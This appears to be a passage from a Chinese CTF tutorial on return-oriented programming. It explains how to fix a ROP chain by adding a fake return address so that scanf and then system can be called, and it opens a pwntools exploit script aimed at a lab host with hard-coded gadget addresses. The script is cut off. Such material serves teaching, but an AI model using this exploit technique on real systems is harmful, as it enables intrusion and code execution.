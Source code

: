 构造ROP调用`__isoc99_scanf`的情况：

![Alt](img/ROP技术15.png)
![Alt](img/ROP技术14.png)
![Alt](img/ROP技术17.png)

从两种调用方式的比较上我们可以看到，由于少了call指令的压栈操作，如果我们在布置栈的时候不模拟出一个压入栈中的地址，被调用函数的取到的参数就是错位的。所以我们需要改良一下ROP链。根据上面的描述，我们应该在参数和保存的EIP中间放置一个执行完的返回地址。鉴于我们调用scanf读取字符串后还要调用system函数，我们让__isoc99_scanf执行完后再次返回到main函数开头，以便于再执行一次栈溢出。改良后的ROP链如下：

```python
    #!usr/bin/python
    #coding=utf-8
    #

    from pwn import *

    context.update(arch = 'i386', os='Linux', timeout = 1)
    io = remote('172.17.0.2',10001)

    elf = ELF('./pwn1')

    input_addr = p32(elf.symbols['__isoc99_scanf'])
    sys_addr = p32(elf.symbols['system'])
    format_addr = p32(0x08048629)
    bin_addr = p32(0x0804A064)
    main_addr = p32(0x08048531)

```
